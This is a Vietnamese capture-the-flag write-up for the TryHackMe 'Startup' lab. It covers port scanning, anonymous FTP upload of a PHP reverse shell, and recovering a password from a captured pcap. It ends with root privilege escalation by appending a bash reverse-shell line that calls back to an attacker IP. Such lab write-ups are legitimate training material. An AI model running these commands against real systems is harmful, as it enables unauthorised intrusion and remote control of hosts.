 # [THM] Startup write-up

- IP: 10.10.222.75

## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -sT -sV -sC -T4 10.10.222.75

![Nmap-scan](./img/nmap-scan.png)

Có 3 port dịch vụ đang mở bao gồm
- Port 21 chạy dịch vụ FTP
- Port 22 chạy dịch vụ SSH
- Port 80 chạy dịch vụ HTTP 

Ta sẽ cùng đi khám phá các port dịch vụ trên. Đầu tiên là với port 21 dịch vụ FTP có thể login với anonymous account
![FTP access](./img/ftp-access.png)
![Get file ftp](./img/get-file-ftp.png)

Khám phá với port 80
![Web interface](./img/web-interface.png)

Tiếp đến ta sẽ đi scan các thư mục ẩn bằng công cụ ffuf
> ffuf -u "http://10.10.222.75/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt

![ffuf scan](./img/ffuf-scan.png)

Nhận thấy rằng có thư mục ẩn `/files` khi truy cập thấy có cấu trúc thư mục tương tự như ftp

![Files dir](./img/file-dir.png)

## Exploit
Khi có cấu trúc file như FTP ta sẽ thử up reverse shell thông qua FTP lên và truy cập xem sao nhé. **File shell.php có thể tham khảo và lấy ở bài Plotted-TMS bên trên**
![Shell put](./img/shell-put.png)

Như vậy là đã up được reverse shell giờ ta thử tạo `netcat listen` và truy cập thành công vào web shell
![Web shell](./img/web-shell.png)

Khi truy cập được vào shell đã cố gắng để xem file user.txt nhưng mà không có quyền vì vậy tôi đã khám phá tất cả nhũng thư mục hay file bất thường ở đây và phát hiện ra file `suspicious.pcapng` đây là file chưa thông tin về các gói dữ liệu bị chặn từ mạng được lưu trữ. Sử dụng **python3** và **wget** để lấy file đó từ server `python3 -m http.server` 

Thực hiện phân tích bằng **wireshark** ta lấy được mật khẩu của user nào nó
![User password](./img/user-pass.png)

Sau khi thử và biết được đó là mật khẩu của user `lennie`

![User shell](./img/user-shell.png)

## user.txt
Ta đã lấy được flag ở file user.txt

![User flag](./img/user-flag.png)

## Privilege escalation
Ta tìm kiếm các thông tin trong thư mục của người dùng và nhận thấy có tệp `planner.sh` được thực thi bằng quyền root mà ta không thể chỉnh sửa bằng user hiện tại
![User dir](./img/user-dir.png)

Nội dung của file `planner.sh` và ta nhận thấy xuất hiện file `/etc/print.sh`

Kiểm tra và nhận thấy có thể chỉnh sửa file `print.sh`
![Print.sh permission](./img/printsh-permit.png)

Chạy câu lệnh `echo 'bash -i >& /dev/tcp/10.21.113.26/4321 0>&1' >> print.sh` để thực hiện ghi nội dung vào cuối file và sau đó tạo trình **netcat listen** trên máy attacker đã nhận được root shell

![Print sh](./img/print-sh.png)

## root.txt
Thực hiện leo thang đặc quyền thành công và tìm thấy flag trong file root.txt

![Root flag](./img/root-flag.png)

